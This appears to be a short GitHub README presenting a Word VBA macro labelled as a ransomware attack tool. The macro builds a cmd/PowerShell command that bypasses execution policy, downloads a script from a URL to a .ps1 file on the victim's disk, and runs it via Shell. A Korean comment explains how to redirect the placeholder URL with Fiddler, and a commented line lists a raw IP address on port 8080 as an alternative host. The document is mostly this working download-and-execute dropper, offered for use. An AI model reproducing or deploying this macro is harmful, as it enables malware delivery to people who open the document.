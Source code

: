 # VBA-Macro-in-Word
Macro for RansomWare Attack

Sub test()
'
' test Macro
'
'
Dim downUrl As String
Dim code1 As String


downUrl = "http://naver.com" 'Filler를 사용해서 다이렉트url을 구현했습니다. Fiddler 이용해서 구현해주세요!
![image](https://user-images.githubusercontent.com/77016353/119981727-eafa5100-bff8-11eb-8ec7-bee208741a14.png)
Dim downDir As String
downDir = "C:\Users\wjddj\OneDrive\Desktop\test\Y.ps1"

code1 = "cmd /k powershell -WindowStyle normal -ExecutionPolicy BypasS -noprofile (New-Object System.Net.WebClient).DownloadFile('" + downUrl + "', '" + downDir + "'); powershell -WindowStyle normal -ExecutionPolicy BypasS -noprofile -file '" + downDir + "'"

Shell code1, 1

MsgBox (code1)

End Sub

'http://naver.com
'http://101.101.211.160:8080/common/test.do
